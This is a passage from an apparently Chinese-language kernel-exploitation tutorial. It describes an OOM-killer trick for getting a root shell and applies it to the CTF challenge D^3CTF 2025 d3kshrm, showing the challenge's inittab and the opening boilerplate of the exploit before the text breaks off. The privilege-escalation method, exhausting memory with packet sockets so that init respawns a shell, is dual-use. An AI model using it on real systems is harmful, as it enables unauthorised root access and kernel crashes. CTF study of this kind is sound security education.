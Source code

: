 ```c
        fflush(stdout);
    }

    puts("Done!?");
}
```

相对应的，`pipe_buffer` 或是 `msg_msg` 等常用的内存分配 API 则不适用于该场景，因为对此类对象的分配会导致 `OOM Score` 的增长。

需要注意的是，这种做法并不能保证一定能够提供 root shell，更多的可能或许是 `System is deadlocked on memory` 或 `Out-of-memory` 导致 kernel panic，因此在实战当中这种技巧未必有着足够高的通用性。

## 例题：D^3CTF 2025 - d3kshrm

> 原题附件可在 [https://github.com/arttnba3/D3CTF2025_d3kshrm](https://github.com/arttnba3/D3CTF2025_d3kshrm) 下载。

我们注意到在本题当中出题人非常严谨地按照 BusyBox 的官方示例配置了 `/etc/inittab` 文件的 `::askfirst:` 项为 `/bin/ash` ，这意味着我们可以使用针对 kernel pwn 的 OOM 攻击：

```shell
$ cat /etc/inittab
::sysinit:/etc/init.d/rcS
::askfirst:/bin/ash
::ctrlaltdel:/sbin/reboot
::shutdown:/sbin/swapoff -a
::shutdown:/bin/umount -a -r
::restart:/sbin/init
```

题目内核未对非特权用户创建 packet socket 进行限制，因此我们可以使用 packet socket 进行大量的内存分配以触发 OOM Killer，最终的 exp 如下：

```c
/**
 * Copyright (c) 2025 arttnba3 <arttnba@gmail.com>
 * 
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
**/

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <fcntl.h>
#include <unistd.h>
#include <sched.h>
#include <errno.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/msg.h>
#include <sys/socket.h>

/**
 * Kernel Pwn Infrastructures
**/

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

void err_exit(char *msg)
```